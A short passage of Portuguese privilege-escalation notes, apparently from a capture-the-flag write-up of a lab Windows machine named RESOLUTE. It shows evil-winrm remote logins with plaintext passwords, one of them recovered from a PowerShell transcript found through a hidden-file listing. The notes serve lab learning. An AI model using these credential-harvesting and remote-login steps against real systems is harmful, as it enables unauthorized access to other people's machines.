     Depois de adicionar o utilizador cube, iniciamos sessão com o `evil-winrm`
    
    `evil-winrm -i 10.10.10.203 -u cube -p Password123!`
    

# Directory

- Directory
    
    `dir -force`
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%206.png)
    
    Diretoriasencontradas `C:\PSTranscripts\20191203\` 
    
    Depois de fazer  `dir -force` novamente encontramos um ficheiro
    `C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.t
    xt`
    
    Ao imprimir o ficheiro 
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%207.png)
    
    `evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!`
    

# Certify

